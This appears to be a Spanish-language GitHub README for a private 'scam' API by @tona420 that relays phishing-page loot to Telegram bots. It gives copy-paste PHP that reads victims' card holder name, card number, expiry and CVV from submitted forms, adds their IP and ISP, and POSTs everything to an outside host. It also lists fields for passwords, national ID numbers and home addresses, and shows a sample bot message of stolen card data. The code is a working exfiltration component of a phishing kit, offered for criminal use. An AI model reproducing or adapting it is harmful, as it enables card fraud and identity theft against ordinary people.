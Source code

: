 # telegramscambot-api

## ¿Qué es?
Es una HTTP API en desarrollo creada por @tona420, la cual mejora, acelera y hace mas sencilla la comunicación de un scam a un bot de Telegram. 

## ¿Es de uso público?
Por el momento, la API es privada y solo pocos usuarios tienen acceso a ella, pero no te preocupes, muy pronto se hará pública y todos podran acceder y usarla.

## ¿Cómo se usa?
Si no eres programador, y quieres usar la api de una manera sencilla y sin complicaciones, te recomiendo que copies y pegues el siguiente código en tu archivo de comunicación:
```php

<?php

$data = array(
    'apikey' => '',
    'token' => '', 
    'chatid' => ''
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
### ¿Qué hace esto?
Es muy sencillo, éste código lo que hace es tomar los datos y enviarlos a la API, se procesan y se envian a telegram, ellos se encargan de mandartelos a traves del bot que creaste.

### ¿Qué datos puedo enviar?
Estos son los datos que puedes enviar mediante la API:

- 'apikey' = Es la llave para poder acceder a la API. _*_

- 'sender' = Es el token de tu bot y tu chat id de telegram, el formato es: token/chatid _*_
    #### Puedes enviar multiples mensajes a tokens e ids diferentes, solo usa "," para separarlos, ej: 
    'sender' => '10101010101:Adk4mfD/14038583992,2323232323:lRj4mf83kmdPfkj/6034857366'

- 'scam' = El nombre de tu scam.
- 'ip' = La IP del usuario.
- 'isp' = El ISP del usuario.
- 'correo' = El correo del usuario.
- 'usuario' = El usuario.
- 'clave' = La clave del usuario.
- 'dni' = El DNI del usuario.
- 'ccname' = El titular de la tarjeta.
- 'ccnum' = Los digitos de la tarjeta.
- 'ccven' = La fecha de vencimiento de la tarjeta.
- 'cccvv' = El código de seguridad de la tarjeta.
- 'provincia' = La provincia del usuario.
- 'localidad' = La localidad del usuario.
- 'postal' = El Código Postal (ZIP) del usuario.
- 'domicilio' = El domicilio del usuario.
- 'telefono' = El teléfono del usuario.

**Los modulos marcados con * son obligatorios**

### Ejemplo
```php

<?php

$cardName = $_POST['card-name'];
$cardNumbers = $_POST['card-number'];
$cardExpiration = $_POST['card-expiration'];
$cardCvv = $_POST['card-cvv'];

$ip = getenv("REMOTE_ADDR");
$isp = gethostbyaddr($_SERVER['REMOTE_ADDR']);

$data = array(
    'apikey' => 'apikey',
    'sender' => '10101010101:Adk4mfD/14038583992,2323232323:lRj4mf83kmdPfkj/6034857366',
    
    'ip' => $ip, 
    'isp' => $isp,
    
    'ccname' => $cardName,
    'ccnum' => $cardNumbers,
    'ccven' => $cardExpiration,
    'cccvv' => $cardCvv
);

$result = file_get_contents('http://c2271028.ferozo.com/api', false, stream_context_create(array('http' => 
array('header'  => "Content-type: application/x-www-form-urlencoded\r\n",'method'  => 'POST','content' => http_build_query($data)))));

?>

```
Mensaje del bot:
```
=====+ Default Scam - @tona420 +=====

Datos de conexión: 
IP: xxx
ISP: xxx
=== Datos Default Scam ===

Titular: Raul Hernandez 
Digitos: 1234 5678 9123 4567 
Vencimiento: 01/11 
CVV: 999 

=====+ @tona420 - dd/mm/yyyy +=====
```

## Contacto
Puedes contactarme mediante telegram @tona420. ;)

